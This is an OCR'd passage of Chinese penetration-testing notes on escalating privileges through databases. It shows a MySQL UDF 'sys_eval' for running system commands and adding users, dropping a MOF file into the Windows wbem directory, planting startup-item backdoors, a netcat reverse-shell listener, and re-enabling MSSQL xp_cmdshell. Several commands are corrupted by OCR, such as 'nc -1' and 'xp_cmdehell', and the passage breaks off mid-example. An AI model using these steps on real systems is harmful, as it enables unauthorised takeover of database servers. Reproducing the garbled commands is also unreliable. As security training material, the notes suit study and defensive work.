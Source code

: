 导入成功后查看一下 mysql 函数里面是否新增了 sys_eval：

```
mysql> select * from mysql.func;
+----------+-----+---------+----------+
| name     | ret | dl      | type     |
+----------+-----+---------+----------+
| sys_eval |   0 | udf.dll | function |
+----------+-----+---------+----------+
```

这里的 sys_eval 支持自定义，接着就可以通过创建的这个函数来执行系统命令了：

```
mysql > select sys_eval('whoami');
```

如果在 Windows 系统下的话应该就是最高权限了，执行一些 net user 增加用户的命令应该都是可以成功的

### 删除自定义函数

```
mysql > drop function sys_eval;
```



#### MOF知识点:

 (基于MYSQL特性的安全问题 )
导出自定义mof文件到系统目录加载
HTTP://www.cnblogs.com/xishaonian/p/6384535.html

```
select load_file ('C:/phpStudy/PHPTutorial/www/user_add.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

#### 启动项知识点:

 (基于配合操作系统自启动)
导出自定义可执行文件到启动目录配合重启执行
将创建好的后[门或执行文件进行服务器启动项写入，配合重启执行!
4.反弹知识点: (基 于利用反弹特性命令执行)

```
nc -1 -p 5577
```

### #案例: MSSQL数据库提权演示-MSSQL客户端

流程:服务探针-信息收集-提权利用-获取权限

#### 1.使用xp_cmdshell进行提权

xp_cmdehell默认在mssq12000中是开启的， 在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重修开启它。
启用:

```
EXEC sp_configure' show advanced options', 1;
RECONFIGURE ; 
EXEC sp_configure' xp_cmdshell', 1;
RECONFIGURE;
```
